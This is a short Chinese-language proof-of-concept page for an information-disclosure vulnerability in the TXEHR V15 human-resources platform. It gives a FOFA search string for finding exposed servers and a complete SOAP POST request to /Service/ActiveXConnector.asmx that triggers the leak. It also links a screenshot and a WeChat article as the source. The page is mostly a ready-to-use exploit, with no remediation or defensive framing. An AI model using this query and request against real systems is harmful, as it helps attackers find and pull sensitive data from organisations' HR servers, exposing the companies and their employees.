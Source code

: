 # 同享人力管理管理平台ActiveXConnector.asmx信息泄露漏洞

同享TXEHR V15人力管理平台的Assistant/Default.aspx接口存在敏感信息泄露漏洞。

## fofa

```yaml
body="/Assistant/Default.aspx"
```

## poc

```java
POST /Service/ActiveXConnector.asmx HTTP/1.1
Host: ip
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:132.0) Gecko/20100101 Firefox/132.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Connection: close
Upgrade-Insecure-Requests: 1
Priority: u=0, i
Content-Type: text/xml;charset=UTF-8
Content-Length: 224

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:tem="http://tempuri.org/">
   <soapenv:Header/>
   <soapenv:Body>
      <tem:GetActivexConnector/>
   </soapenv:Body>
</soapenv:Envelope>
```

![image-20241129102019535](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202411291020719.png)



## 漏洞来源

- https://mp.weixin.qq.com/s/iNp5vADT3y05icdZrmNX9Q
